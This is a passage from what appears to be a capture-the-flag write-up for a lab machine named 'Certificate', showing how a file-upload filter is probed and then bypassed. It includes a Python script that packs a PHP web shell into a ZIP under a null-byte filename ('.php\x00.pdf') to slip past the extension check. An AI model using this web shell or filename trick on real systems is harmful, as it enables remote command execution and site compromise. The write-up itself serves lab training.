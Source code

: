 This suggests to me that there's some kind of filtering going on, let's try to zip a `pdf` and upload it.

```bash
touch test.pdf
zip test.zip test.pdf
	adding: test.pdf (stored 0%)
```

We can see that we can submit this `zip` file with a `pdf` inside it.
![Test PDF Upload success](/assets/img/img_Certificate/Certificate-1748734922889.png)

Clicking on the `HERE` button to check our upload we can see that it does `unzip` the `zip` file because it redirects us to view the `pdf`.

```
http://certificate.htb/static/uploads/6144021521507642c5a799e2bca164e3/test.pdf
```

If we write a null byte after the first extension and add `.pdf` we might get it to work.

```python
import zipfile
import os

# Paths
zip_path = 'w1ldshell.zip'
new_zip_path = 'w1ldshell2.zip'
old_filename = 'w1ldshell.php'
new_filename = 'w1ldshell.php\x00.pdf'
payload = '<?php system($_GET["cmd"])?>'

# Create the original ZIP file
with zipfile.ZipFile(zip_path, 'w') as zip_create:
    zip_create.writestr(old_filename, payload)
print(f'Created original ZIP file: {zip_path} with {old_filename}')

# Open the original ZIP and create a new one with the renamed file
with zipfile.ZipFile(zip_path, 'r') as zip_read:
    with zipfile.ZipFile(new_zip_path, 'w') as zip_write:
        for item in zip_read.infolist():
            original_data = zip_read.read(item.filename)
            # Rename the target file
            if item.filename == old_filename:
                item.filename = new_filename
            zip_write.writestr(item, original_data)

print(f'Renamed {old_filename} to {new_filename} inside {new_zip_path}')

```
